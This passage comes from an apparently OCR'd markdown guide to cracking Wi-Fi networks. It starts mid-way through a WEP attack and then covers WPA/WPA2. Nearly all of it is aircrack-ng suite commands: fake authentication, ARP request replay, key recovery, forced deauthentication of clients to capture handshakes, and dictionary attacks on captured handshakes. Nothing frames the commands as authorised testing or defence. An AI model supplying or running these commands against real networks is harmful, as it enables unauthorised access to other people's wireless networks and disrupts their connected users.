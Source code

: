 **Step 2: Authentication**
```bash
# Fake authentication
aireplay-ng -1 0 -a 00:11:22:33:44:55 -h 00:11:22:33:44:66 wlan0mon

# Verify authentication
aireplay-ng -1 0 -a 00:11:22:33:44:55 -h 00:11:22:33:44:66 -e "NetworkName" wlan0mon
```

**Step 3: Traffic Generation**
```bash
# ARP request replay
aireplay-ng -3 -b 00:11:22:33:44:55 -h 00:11:22:33:44:66 wlan0mon

# Interactive packet replay
aireplay-ng -2 -b 00:11:22:33:44:55 -h 00:11:22:33:44:66 wlan0mon
```

**Step 4: Key Recovery**
```bash
# Statistical analysis
aircrack-ng wep_target.cap

# Specific key length
aircrack-ng -n 128 wep_target.cap
```

### **WPA/WPA2 Cracking Methodology**

**Step 1: Handshake Capture**
```bash
# Monitor target network
airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w wpa_target wlan0mon

# Force client reconnection
aireplay-ng -0 5 -a 00:11:22:33:44:55 wlan0mon
```

**Step 2: Handshake Verification**
```bash
# Verify handshake capture
aircrack-ng wpa_target.cap

# Check for specific BSSID
aircrack-ng -b 00:11:22:33:44:55 wpa_target.cap
```

**Step 3: Password Cracking**
```bash
# Dictionary attack
aircrack-ng -w wordlist.txt wpa_target.cap

# Combined wordlists
aircrack-ng -w wordlist1.txt,wordlist2.txt wpa_target.cap
```

---